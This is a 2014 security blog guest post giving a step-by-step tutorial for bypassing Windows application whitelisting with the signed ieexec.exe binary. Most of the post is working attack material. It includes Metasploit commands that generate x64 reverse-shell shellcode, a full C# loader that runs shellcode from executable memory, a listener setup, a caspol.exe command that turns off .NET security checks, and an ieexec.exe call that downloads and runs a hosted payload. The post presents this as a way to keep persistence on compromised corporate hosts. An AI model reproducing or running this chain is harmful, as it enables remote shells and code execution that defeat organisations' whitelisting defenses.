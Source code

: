 ---
layout: post
title: "Application Whitelist Bypass using IEexec.exe"
date: 2014-01-16 12:30:42 -0500
comments: true
author: infosecsmith2
categories: 
---

## Guest post by [@infosecsmith2](https://twitter.com/infosecsmith2)

There was a recent presentation at DerbyCon, entitled:

[Living Off the Land: A Minimalist’s Guide to Windows Post-Exploitation](http://www.youtube.com/watch?v=j-r6UonEkUw)
by Christopher Campbell & Matthew Graeber

I highly recommend that you start with this presentation as it lays the foundation for this post.

The premise is, how can we maintain persistence in a corporate environment, using tools and defaults provided by the host OS we have compromised. This is a very important concept, given the shift in many organizations to an Application Whitelisting Defense model.

It is only a matter of time before time before you might encounter an Application Whitelisting Defense.

As a follow up to that presentation, I began exploring the binaries that ship by default with Windows.  That is where I stumbled across a binary in the C:\Windows\Microsoft.NET\Framework64\v2.0.50727 path.

The Executable is ieexec.exe. A write up is here: http://support.microsoft.com/kb/822485

> “The IEExec.exe application is an undocumented Microsoft .NET Framework application that is included with the .NET Framework. You can use the IEExec.exe application as a host to run other managed applications that you start by using a URL.”

Excellent! So, now we just need to host our malicious binary , and call it from ieexec.exe.

This is great, since most Application Whitelisting Environments are going to “Trust” anything signed my Microsoft as a matter of convenience. IEexec.exe will download and execute our code for us, all under the trusted process.

So lets get started!

**Step 1.** Prepare your Shellcode, or whatever malicious app you want. I compiled my executable using SharpDevelop, since it has less footprint than a full blown Visual Studio install.
From msfconsole:

```
msf > use windows/x64/shell/reverse_tcp
msf payload(reverse_tcp) > set LHOST x.x.x.x
msf payload(reverse_tcp) > set LPORT 443
msf payload(reverse_tcp) > generate -t csharp
￼
byte[] buf = new byte[422] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52...

 <Snipped Full ShellCode for Brevity>
```

**Step 2.** Create the .NET wrapper application

```csharp
using System; 
using System.Runtime.InteropServices; 
namespace native 
{ 
    class Program 
    { 
            private static UInt32 MEM_COMMIT = 0x1000; 
            private static UInt32 PAGE_EXECUTE_READWRITE = 0x40; 
            private static UInt32 MEM_RELEASE = 0x8000; 

        public static void Main(string[] args) 
        { 
            // native function's compiled code 

            byte[] proc = new byte[] { 
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52... 
            
            //Edited ShellCode For Brevity 
            }; 

            UInt32 funcAddr = VirtualAlloc(0, (UInt32)proc.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE); 
            Marshal.Copy(proc, 0, (IntPtr)(funcAddr), proc.Length); 
            IntPtr hThread = IntPtr.Zero; 
            UInt32 threadId = 0; 

            // prepare data 

            PROCESSOR_INFO info = new PROCESSOR_INFO(); 
            IntPtr pinfo = Marshal.AllocHGlobal(Marshal.SizeOf(typeof(PROCESSOR_INFO))); 
            Marshal.StructureToPtr(info, pinfo, false); 
            
            // execute native code 

            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId); 
            WaitForSingleObject(hThread, 0xFFFFFFFF); 

            // retrive data 

            info = (PROCESSOR_INFO)Marshal.PtrToStructure(pinfo, typeof(PROCESSOR_INFO)); 
            Marshal.FreeHGlobal(pinfo); 
            CloseHandle(hThread);
            VirtualFree((IntPtr)funcAddr, 0, MEM_RELEASE); 
        } 

        [DllImport("kernel32")] 
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect); 

        [DllImport("kernel32")] 
        private static extern bool VirtualFree(IntPtr lpAddress, UInt32 dwSize, UInt32 dwFreeType); 

        [DllImport("kernel32")] 
        private static extern IntPtr CreateThread( UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId ); 

        [DllImport("kernel32")] 
        private static extern bool CloseHandle(IntPtr handle); 

        [DllImport("kernel32")] 
        private static extern UInt32 WaitForSingleObject( IntPtr hHandle, UInt32 dwMilliseconds ); 

        [DllImport("kernel32")] 
        private static extern IntPtr GetModuleHandle( string moduleName ); 

        [DllImport("kernel32")] 
        private static extern UInt32 GetProcAddress( IntPtr hModule, string procName ); 

        [DllImport("kernel32")] 
        private static extern UInt32 LoadLibrary( string lpFileName ); 

        [DllImport("kernel32")] 
        private static extern UInt32 GetLastError();
        
        [StructLayout(LayoutKind.Sequential)] 
        internal struct PROCESSOR_INFO 
        { 
            public UInt32 dwMax; 
            public UInt32 id0; 
            public UInt32 id1; 
            public UInt32 id2; 
            public UInt32 dwStandard; 
            public UInt32 dwFeature; 

            // if AMD 
            public UInt32 dwExt; 
        }
    } 
}
```

You will want to compile the exe for the target platform. In this case I am going for an x64 target. Also, you will want to compile for 2.0 or 3.5 Framework.

**Step 3.** Host the Exe. For this example, I used Mongoose. Simple and Effective:

http://code.google.com/p/mongoose/

By default Mongoose listens on port 8080. This is configurable. Simple place your compiled binary from step 2 into the same directory as Mongoose. Start Mongoose and you are almost ready to deliver your payload.

**Step 4.** Setup your receiver:

```
msf payload(reverse_tcp) > use exploit/multi/handler
msf exploit(handler) > set LHOST x.x.x.x
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set PAYLOAD windows/x64/shell/reverse_tcp
msf exploit(handler) > exploit -j
```

**Step 5.** From the host that is protected via Whitelisting. Open 2 Command Prompts as administrator.

**CMD 1 Execute:**
```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
```
￼
**CMD 2 Execute:**
```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>ieexec.exe http://x.x.x.x:8080/bypass.exe
```

There is some detail to unpack here, I can go over later, as to why we need to run caspol.exe. Here’s the behavior I saw in our experimentation with this.

Initial attempt to run our rogue binary fails, since it is unknown/untrusted/unapproved:

![](/images/postimages/201401_whitelisting_1.png)

Now, on the same host...

![](/images/postimages/201401_whitelisting_2.png)

Executes just fine!

![](/images/postimages/201401_whitelisting_3.png)

Its important to distinguish what this technique is and what it is not. This is not an exploit or vulnerability. Rather this is one way to execute arbitraty code in an Application Whitelisting Environment.

**Summary:**

In this document we learned that even if a host is in a mode where only trusted approved applications can run. IEexec.exe can be used in certain situations to circumvent a Whitelist, since it is likely a trusted binary, since it is signed by Microsoft.

Cheers,

=> [@infosecsmith2](https://twitter.com/infosecsmith2)
